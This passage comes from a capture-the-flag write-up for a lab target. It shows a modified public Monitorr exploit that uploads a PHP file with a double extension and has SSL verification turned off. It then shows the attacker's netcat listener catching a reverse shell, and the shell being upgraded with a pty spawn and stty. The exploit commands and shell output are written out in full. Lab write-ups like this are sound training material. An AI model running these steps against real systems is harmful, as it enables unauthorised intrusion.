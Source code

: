 Above you can see I've done the following:

```text
Suppressed the SSL warning by disabling it using a urllib3 setting.
Added verify=False to the post and get requests.
Changed the name of the exploit file being created to have a double extension with PHP in uppercase.
Changed the later call to the uploaded file to the same name, but with a lowercase php as it gets changed on upload.
```

## Gaining Access

I ran the exploit, but my netcat listener on port 4444 didn't catch anything. We know using curl we've been working on port 443, let's try that:

```text
┌──(root💀kali)-[~/thm/jellyfish]
└─# python 48980.py https://monitorr.robyns-petshop.thm/ 10.8.165.116 443
A shell script should be uploaded. Now we try to execute it
```

Switching to my listener, and at last we have a shell connected:

```text
┌──(root💀kali)-[~/thm/jellyfish]
└─# nc -nlvp 443
listening on [any] 443 ...
connect to [10.8.165.116] from (UNKNOWN) [10.10.22.95] 37004
bash: cannot set terminal process group (1091): Inappropriate ioctl for device
bash: no job control in this shell
www-data@petshop:/var/www/monitorr/assets/data/usrimg$
```

## Upgrade Shell

Let's upgrade to a better shell before we proceed, first check my local Kali terminal size:

```text
┌──(root💀kali)-[~/thm/jellyfish]
└─# stty size
61 237
```

Now sort out my shell:

```text
www-data@petshop:/var/www/monitorr/assets/data/usrimg$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@petshop:/var/www/monitorr/assets/data/usrimg$ ^Z
┌──(root💀kali)-[~/thm/diffctf]
└─# stty raw -echo; fg
www-data@petshop:/var/www/monitorr/assets/data/usrimg$ stty rows 61 cols 237
```

First, who are we, what groups are we in, are there any other users:
